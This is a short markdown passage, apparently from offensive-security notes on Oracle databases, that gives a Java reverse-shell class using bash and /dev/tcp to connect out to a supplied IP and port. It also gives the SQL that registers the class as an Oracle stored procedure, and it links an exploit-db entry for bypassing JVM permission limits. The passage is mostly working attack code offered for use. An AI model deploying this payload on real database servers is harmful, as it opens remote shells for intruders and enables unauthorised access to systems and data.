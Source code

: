 # Java

This approach will not work as the Oracle JVM implements fine grain policy-based security to control access to the OS and filesystem.  Executing this procedure from a low-permissioned account results in errors. (some old database bypasses are [available](https://www.exploit-db.com/exploits/33601/) however).

```java
import java.io.*;

public class ReverseShell{
 public static void getConnection(String ip, String port) throws InterruptedException, IOException{
   Runtime r = Runtime.getRuntime();
   Process p = r.exec(new String[]{"/bin/bash","-c","0<&126-;exec 126<>/dev/tcp/" + ip + "/" + port + ";/bin/bash <&126 >&126 2>&126"});
   System.out.println(p.toString());
   p.waitFor();
 }
}
```

Create or replace procedure reverse_shell `(p_ip IN VARCHAR2, p_port IN VARCHAR2)` IS language java name `'ReverseShell.getConnection(java.lang.String, java.lang.String)';`.